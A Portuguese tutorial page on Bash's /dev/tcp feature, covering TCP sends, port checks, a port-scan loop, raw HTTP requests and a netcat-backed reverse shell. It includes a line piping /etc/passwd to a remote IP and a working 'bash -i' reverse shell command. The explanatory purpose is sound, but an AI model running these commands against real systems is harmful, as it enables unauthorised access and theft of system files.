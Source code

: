 ```yaml
---
id: dev_tcp
title: /dev/tcp/
---
```


O `/dev/tcp/` no Linux é uma funcionalidade especial do interpretador de
comandos Bash que permite realizar conexões TCP diretamente através do sistema
de arquivos. Ele não é um arquivo real no `/dev`, mas sim um recurso interno do
Bash para abrir conexões de rede de forma simples.

## Como funciona?

O Bash interpreta `/dev/tcp/<host>/<porta>` como uma tentativa de abrir uma
conexão TCP com o host e a porta especificados. Se a conexão for bem-sucedida,
você pode enviar e receber dados como se estivesse lidando com um arquivo.

## Uso Simples

Abaixo estaremos enviando um 'hi' para o IP 172.16.0.2 na porta 4444:

```bash
echo 'hi' > /dev/tcp/172.16.0.2/4444
```

```bash
cat /etc/passwd > /dev/tcp/172.16.0.2/4444
```

## Verificando Portas

Ao tentar fazer uma conexão utilizando o `/dev/tcp`, caso o endpoint não esteja
acessível irá retornar o código 1 de erro.

```bash
>/dev/tcp/172.16.0.2/4444
echo $?
```

Com base no conceito do comando de cima é possível fazer uma lógica para
determinar de forma mais amigável se a porta está aberta em determinado host
(IP ou hostname).

```bash
{ echo > /dev/tcp/google.com/80; } 2>/dev/null && \
    echo "Open port" || echo "Closed port"
```

Com isso é possível fazer um *portscan* simples:

```bash
seq 1 1000 | xargs -I{} bash -c '
    { echo > /dev/tcp/192.168.0.1/{}; } 2>/dev/null && \
    echo "{} Open port"
'
```

## Request HTTP

Para fazer uma requisição HTTP utilizando o `/dev/tcp` é um pouco complicado,
pois precisamos utilizar *file descriptor*, porém se torna útil em ambientes sem
o `curl` ou limitados como por exemplos os ambientes conteinerizados.

```bash
exec 3<>/dev/tcp/example.com/80
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\nConnection: close\r\n\r\n" >&3
cat <&3
exec 3>&-
```

**Referências:**

- [HTTP requests via /dev/tcp](https://rednafi.com/misc/http_requests_via_dev_tcp/)
- [O que são file descriptors](https://blog.pantuza.com/artigos/o-que-sao-file-descriptors)
- [Bash redirection fun with descriptors](https://copyconstruct.medium.com/bash-redirection-fun-with-descriptors-e799ec5a3c16)

## TCP Shell Reverso

No server que irá receber a conexão reversa com o *shell*:

```bash
nc -l 4444
```

Na máquina alvo que irá fazer a conexão reversa e passar a *shell*:

```bash
bash -i > /dev/tcp/172.16.0.1/4444 0>&1 2>&1
```

:::info
Para recapitular, abaixo temos o código de cada fluxo padrão:

STDIN: 0
STDOUT: 1
STDERR: 2

`>&1` faz com que STDIN seja redirecionado para o mesmo destino de STDOUT, ou
seja, os dados recebidos da conexão TCP agora são tratados como entrada para o
Bash interativo e o mesmo acontece com o STDERR (`2>&1`).
:::
